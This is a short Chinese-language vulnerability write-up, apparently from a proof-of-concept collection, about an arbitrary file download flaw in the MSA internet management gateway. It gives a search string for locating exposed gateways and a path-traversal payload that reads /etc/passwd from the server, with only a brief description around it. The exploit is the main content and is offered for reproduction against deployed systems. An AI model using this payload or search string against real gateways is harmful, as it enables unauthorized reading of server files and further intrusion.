 # 

# MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## 网络测绘

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](./images/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](./images/202202110916705.png)
